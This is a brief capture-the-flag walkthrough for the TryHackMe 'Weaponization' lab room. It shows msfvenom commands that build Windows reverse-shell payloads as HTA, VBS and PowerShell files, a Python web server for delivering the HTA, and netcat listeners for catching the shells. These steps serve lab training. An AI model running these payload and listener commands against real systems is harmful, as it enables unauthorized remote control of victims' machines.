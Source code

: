 # Weaponization

**Room Link:** [https://tryhackme.com/room/weaponization](https://tryhackme.com/room/weaponization)



## Practice Area

**From the room:** The web application allows uploading payloads as VBS, DOC, PS1 files. In addition, if you provide a malicious HTA link, the web application will visit your link.

We will be exploiting this box with every mentioned above.&#x20;

### HTA

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o thm.hta
python2 -m SimpleHTTPServer 81
```

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

### VBS

**Kali #1**

```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f vbs -o exploit.vbs
```

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (6).png" alt=""><figcaption></figcaption></figure>

### DOC

Do when have access to a Windows machine with word.

### PS1

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f psh -o exploit.ps1
```

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
